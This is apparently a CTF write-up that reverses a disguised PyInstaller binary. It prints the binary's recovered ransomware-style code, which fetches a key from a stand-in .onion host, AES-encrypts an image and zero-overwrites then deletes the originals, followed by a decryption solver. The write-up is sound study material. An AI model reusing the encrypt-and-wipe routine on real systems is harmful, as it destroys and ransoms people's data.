



# wannadie (450 points, 1 solves)
# i wanna die

By [`R1ckyH`](https://github.com/R1ckyH)

是咁的，wannadie? 我真係想die啊！

？？？？ 點解佢有四個`attachment`嘅？

```
- FatGuyGenerator.exe
- ILeftSomeForYou.png
- LovelyFatGuy.jpg.WDIE
- Screenshot.png
```

emmmm.... `windows defender warning`....

never mind.... `pause protestion` (????)

So the two picture are:

> A fat guy?


> WannaCry?



> ~~`Let me directly run the program and see see what will be happen la (應該會中毒)`~~

>Never mind, just run.

```shell
Traceback (most recent call last):
  File "FatGuyGenerator.py", line 74, in <module>
  File "FatGuyGenerator.py", line 10, in main
  File "PIL\Image.py", line 3227, in open
FileNotFoundError: [Errno 2] No such file or directory: 'LovelyFatGuy.png'
[43612] Failed to execute script 'FatGuyGenerator' due to unhandled exception!
```

> **`Dont`** run it? lol

Now I can sure that this is a python program.

Emmmm, i guess it was made by [pyinstaller](https://pypi.org/project/pyinstaller/).

let me check check how to extract it.

oh, using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) can extract the pyc file from .exe which made by [pyinstaller](https://pypi.org/project/pyinstaller/).

So I now extract the file and i got the pyc file.

damn.... `python 3.10`? there are no decompiler fully support `python 3.10`

....

Never mind, then I first put it on [online decompiler](https://tool.lu/en_US/pyc/) ....

> Then I got this

```python
#!/usr/bin/env python
# visit https://tool.lu/pyc/ for more information
# Version: Python 3.10

from PIL import Image
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from datetime import datetime
import random
import os
import requests

def main():
    im = Image.open('LovelyFatGuy.png', 'r')
    pix = im.load()
    (dim_x, dim_y) = im.size
    im1 = im.crop((0, (dim_y / 4) * 3, dim_x, dim_y))
    im1.save('temp.png')
    for x in range(dim_x):
        for y in range(dim_y):
            (r, g, b, a) = pix[(x, y)]
            g = g ^ b
            b = b ^ r
            if x < 400:
                r = (r - 55) % 256
                g = (g - 24) % 256
                b = (b - 16) % 256
            if x > 400:
                r = r * 99 % 256
                g = g // 64 % 256
                b = b * 77 % 256
            if y > 600:
                r = r * 22 % 256
                g = (g - 64) % 256
                b = (b + 48) % 256
            if x + y % 10 == 0:
                r = (r - 33) % 256
                b = (b - 12) % 256
            if x + y % 3 == 0:
                g = (g + 88) % 256
                b = (b + 55) % 256
            pix[(x, y)] = (r, g, b, a)
    im.save('LovelyFatGuy-unencrypted.png')
    im = Image.open('temp.png', 'r')
    pix = im.load()
    r = requests.get('http://MakeAmericaGreatAgain.onion/key')
    key_retrieved = r.text.encode()
    current = int(datetime.now().timestamp())
    (dim_x, dim_y) = im.size
    for i in range(24):
        random.seed(current)
        x_to_modify = random.randint(1, dim_x)
        (r, g, b, a) = pix[(x_to_modify, 100)]
        pix[(x_to_modify, 100)] = (key_retrieved[i], g, b, a)
        current += 1
    im.save('ILeftSomeForYou.png')
# WARNING: Decompyle incomplete

if __name__ == '__main__':
    main()
    return None
```

>emmmm, the code is not complete, damn

....

nvm, i use [pydac](https://github.com/zrax/pycdc) to decode the pyc file to `Bytecode`.

> Bytecode here

```ruby
FatGuyGenerator.pyc (Python 3.10)
[Code]
    File Name: FatGuyGenerator.py
    Object Name: <module>
    Arg Count: 0
    Pos Only Arg Count: 0
    KW Only Arg Count: 0
    Locals: 0
    Stack Size: 2
    Flags: 0x00000040 (CO_NOFREE)
    [Names]
        'PIL'
        'Image'
        'Crypto.Cipher'
        ....

        ....
        'requests'
        'main'
        '__name__'
    [Var Names]
    [Free Vars]
    [Cell Vars]
    [Constants]
        0
        (    'Image')
        (    'AES')
        (    'pad')
        (    'datetime')
        None
        [Code]
            File Name: FatGuyGenerator.py
            Object Name: main
            Arg Count: 0
            Pos Only Arg Count: 0
            KW Only Arg Count: 0
            Locals: 20
            Stack Size: 9
            Flags: 0x00000043 (CO_OPTIMIZED | CO_NEWLOCALS | CO_NOFREE)
            [Names]
                'Image'
                'open'
                'load'
                ....
                
                ....
                'path'
                'getsize'
                'remove'
            [Var Names]
                'im'
                'pix'
                'dim_x'
                ....
                
                ....
                'fs'
                'files_to_delete'
                'file'
            [Free Vars]
            [Cell Vars]
            [Constants]
                None
                'LovelyFatGuy.png'
                'r'
                0
                ....
                
                ....
                'wb'
                (
                    'temp.png'
                    'LovelyFatGuy.png'
                    'LovelyFatGuy-unencrypted.png'
                )
                'ab'
                b'\x00'
            [Disassembly]
                0       LOAD_GLOBAL                   0: Image
                2       LOAD_METHOD                   1: open
                4       LOAD_CONST                    1: 'LovelyFatGuy.png'
                ....

                ....
                756     JUMP_ABSOLUTE                 338 (to 676)
                760     LOAD_CONST                    0: None
                762     RETURN_VALUE                  
        'main'
        '__main__'
    [Disassembly]
        0       LOAD_CONST                    0: 0
        2       LOAD_CONST                    1: ('Image',)
        4       IMPORT_NAME                   0: PIL
        ....

        ....
        96      RETURN_VALUE                  
        98      LOAD_CONST                    5: None
        100     RETURN_VALUE                  
```

> After decode the `bytecode` to `python code` by hand, I got this:

```python
from PIL import Image
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from datetime import datetime
import random
import os
import requests
def main():
    im = Image.open('LovelyFatGuy.png', 'r')
    pix = im.load()
    (dim_x, dim_y) = im.size
    im1 = im.crop((0, (dim_y / 4) * 3, dim_x, dim_y))
    im1.save('temp.png')
    for x in range(dim_x):
        for y in range(dim_y):
            (r, g, b, a) = pix[(x, y)]
            g = g ^ b
            b = b ^ r
            if x < 400:
                r = (r - 55) % 256
                g = (g - 24) % 256
                b = (b - 16) % 256
            if x > 400:
                r = r * 99 % 256
                g = g // 64 % 256
                b = b * 77 % 256
            if y > 600:
                r = r * 22 % 256
                g = (g - 64) % 256
                b = (b + 48) % 256
            if x + y % 10 == 0:
                r = (r - 33) % 256
                b = (b - 12) % 256
            if x + y % 3 == 0:
                g = (g + 88) % 256
                b = (b + 55) % 256
            pix[(x, y)] = (r, g, b, a)
    im.save('LovelyFatGuy-unencrypted.png')
    im = Image.open('temp.png', 'r')
    pix = im.load()
    r = requests.get('http://MakeAmericaGreatAgain.onion/key')
    key_retrieved = r.text.encode()
    current = int(datetime.now().timestamp())
    f = Image.open('LovelyFatGuy-unencrypted.png', 'rb')
    (dim_x, dim_y) = im.size
    for i in range(24):
        random.seed(current)
        x_to_modify = random.randint(1, dim_x)
        (r, g, b, a) = pix[(x_to_modify, 100)]
        pix[(x_to_modify, 100)] = (key_retrieved[i], g, b, a)
        current += 1
    im.save('ILeftSomeForYou.png')
    cipher = AES.new(key_retrieved, AES.MODE_ECB)
    with open('LovelyFatGuy.jpg.WDIE', 'wb') as fs:
        fs.write(cipher.encrypt(pad(f.read(), 16)))
    

    files_to_delete = ('temp.png', 'LovelyFatGuy.png', 'LovelyFatGuy-unencrypted.png')
    for file in files_to_delete:
        with open(file, "ab") as f:
            f.write(b'\x00' * os.path.getsize(file))
        os.remove(file)


if __name__ == '__main__':
    main()
```

> After viewing this code, i can know that the `key_retrieved` is hidden in `ILeftSomeForYou.png`

However, it is using `random.seed(current)` to hide the key

But we have hints here, we got the screenshot from user.

The time of calculating the start `seed` of `current` is `28/1/2023 12:45:48`.

But `Hong Kong` is `utc+8`, so the start seed is `28/1/2023 20:45:48`

After the calculation, We got the key, `key_retrieved` is `MakeNorthKoreaGreatAgain` 

> ~~`we can report to North Korea Government right now`~~

Actually, if your eyes are strong enough, u can get the key after here. ????


My eyes is bad, so i reverse the else of it.

However, if you study at math, u will know part of the code is not available to reverse, so i try my best to reverse most of it.

Now i got this photo



> I can now see the image.... damn, my eyes still got hurt, so I turn the black color `rgb(0,0,0)` to `rgb(255,0,0)`

> Now I can see the flag clearly, please pay for **my medical bills**

> The flag is here:


> The full code is here:

```python
from PIL import Image
from Crypto.Cipher import AES
from datetime import datetime
import random
import gmpy2


def invert_mod(a, b, c):
    b = gmpy2.invert(b, c)
    return a * b % c

current = int(datetime.strptime("28/1/2023 20:45:48",
              "%d/%m/%Y %H:%M:%S").timestamp())
print(datetime.now())
print(current)
im = Image.open('ILeftSomeForYou.png', "r")
pix = im.load()
(dim_x, dim_y) = im.size
key_retrieved = []
for i in range(24):
    random.seed(current)
    x_to_modify = random.randint(1, dim_x)
    (r, g, b, a) = pix[(x_to_modify, 100)]
    key_retrieved.append(r)
    current += 1
im.save('ILeftSomeForYou2.png')
key_retrieved = bytes(key_retrieved)
print(key_retrieved)

f = open('LovelyFatGuy.jpg.WDIE', "rb")
cipher = AES.new(key_retrieved, AES.MODE_ECB)
with open('temp.png', 'wb') as fs:
    fs.write(cipher.decrypt(f.read()))

im = Image.open('temp.png', 'r')
pix = im.load()
(dim_x, dim_y) = im.size
for x in range(dim_x):
        for y in range(dim_y):
            #print(pix[(x, y)])
            (r, g, b, a) = pix[(x, y)]
            if x + y % 3 == 0:
                g = (g - 88) % 256#
                b = (b - 55) % 256#

            if x + y % 10 == 0:
                r = (r + 33) % 256#
                b = (b + 12) % 256#

            if y > 600:
                r = r * 22 % 256#?

                g = (g + 64) % 256#
                b = (b - 48) % 2563#

            if x > 400:
                r = invert_mod(r, 99, 256)
                g = g * 64 % 256
                b = invert_mod(b, 77, 256)

            if x < 400:
                r = (r + 55) % 256#
                g = (g + 24) % 256#
                b = (b + 16) % 256#

            b = b ^ r
            g = g ^ b
            if r <= 0 and g <= 0 and b <= 0:
                r = 255
            pix[(x, y)] = (r, g, b, a)
im.save('LovelyFatGuy.png')
```